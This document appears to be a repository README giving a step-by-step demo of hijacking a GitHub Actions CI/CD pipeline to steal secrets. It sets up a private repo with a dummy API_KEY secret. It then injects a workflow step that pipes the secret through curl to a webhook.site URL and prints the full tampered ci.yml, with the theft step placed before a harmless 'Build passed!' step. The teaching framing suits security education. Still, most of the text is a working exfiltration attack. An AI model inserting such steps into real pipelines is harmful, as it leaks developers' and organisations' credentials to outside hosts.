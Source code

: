 # Using CI/CD pipelines to infiltrate without dropping a shell

A demo that shows how to hijack a CI/CD pipeline and exfiltrate secrets — without ever dropping a reverse shell. This attack uses GitHub Actions and simulates real-world access to a compromised developer account.

---

## Prerequisites

Before you begin, make sure you have the following:

- **A GitHub account** (with permission to create private repositories).
- **Git installed and configured** on your machine.
  - You can verify by running: `git --version`
- **Internet access** to connect to GitHub and Webhook.site.
- **A browser** to:
  - Access [https://github.com](https://github.com)
  - Use [https://webhook.site](https://webhook.site) to receive the exfiltrated secret.
- **(Optional)** A GitHub personal access token (PAT) if you prefer pushing via HTTPS with authentication.

## Step 1: Create a simple GitHub repository

Login to your GitHub account and create a private repository named ci-cd-hijack-minimal. Then setup a repository on your local machine using the following commands:

```bash
mkdir ci-cd-hijack-minimal
cd ci-cd-hijack-minimal
echo "This is a test repo." > README.md
git init
git add .
git commit -m "Initial commit"
```
## Step 2: Create a GitHub Actions workflow

Create the folder:
```bash
mkdir -p .github/workflows
```
Then create .github/workflows/ci.yml:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Print message
      run: echo "Build passed!"
```

## Step 3: Add a secret

Go to your GitHub repo > Settings > Secrets and Variables > Actions, and add:

- Name: `API_KEY`
- Value: `minimal_demo_secret_456`


## Step 4: Obtain WebHook URL

Go to [https://webhook.site/](https://webhook.site/) and copy the value shown in Your unique URL

## Step 5: Inject the malicious line

Now modify the workflow to include your exfiltration step (remember to replace `https://webhook.site/your-unique-id` with the URL you copied earlier):

```yaml
- name: Exfiltrate Secret
  run: |
    echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id
```

Full .github/workflows/ci.yml after injection:

```yaml
name: Minimal CI

on:
  push:
    branches: [ main ]

jobs:
  build:
    runs-on: ubuntu-latest
    env:
      API_KEY: ${{ secrets.API_KEY }}

    steps:
    - name: Checkout code
      uses: actions/checkout@v3

    - name: Exfiltrate Secret
      run: |
        echo $API_KEY | curl -X POST -d @- https://webhook.site/your-unique-id

    - name: Print message
      run: echo "Build passed!"
```

## Step 6: Push and trigger the workflow

```bash
git add .
git commit -m "Add basic CI workflow"
git branch -M main
git remote add origin https://github.com/your-username/ci-cd-hijack-minimal.git
git push -u origin main
```
Then watch the Actions tab in GitHub — and check your Webhook.site to see the stolen secret.


